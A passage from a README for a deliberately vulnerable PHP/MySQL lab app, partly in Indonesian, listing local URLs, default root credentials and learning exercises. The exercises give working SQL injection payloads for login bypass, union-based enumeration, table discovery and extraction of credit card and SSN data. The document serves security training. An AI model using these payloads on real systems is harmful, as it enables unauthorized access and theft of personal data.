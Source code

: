 4. **Akses aplikasi**
- Web Application: http://localhost:8080
- MySQL Database: localhost:3306

### Default Credentials
- **Database**: 
  - Host: localhost:3307 (note: port changed to avoid conflicts)
  - User: root
  - Password: password123
  - Database: vulnerable_app

### Application URLs
- **Main App**: http://localhost:8080
- **Search Page**: http://localhost:8080/search.php  
- **Test Lab**: http://localhost:8080/test.php (recommended for learning)

## 🎯 Target Pembelajaran

### 1. Authentication Bypass
Gunakan payload ini untuk bypass login:
```sql
Username: admin' OR 1=1 #
Password: (apa saja)
```

### 2. Union-Based SQL Injection
Ekstrak data dari database (tabel users memiliki 6 kolom):
```sql
Username: admin' UNION SELECT 1,2,3,4,5,6 #
Password: (apa saja)
```

### 3. Information Gathering
Dapatkan informasi database:
```sql
Username: admin' UNION SELECT 1,database(),user(),version(),5,6 #
Password: (apa saja)
```

### 4. Table Discovery
Temukan semua tabel:
```sql
Username: admin' UNION SELECT 1,table_name,3,4,5,6 FROM information_schema.tables WHERE table_schema=database() #
Password: (apa saja)
```

### 5. Data Exfiltration
Ekstrak data sensitif:
```sql
Username: admin' UNION SELECT id,secret_info,credit_card,ssn,1,2 FROM sensitive_data #
Password: (apa saja)
```
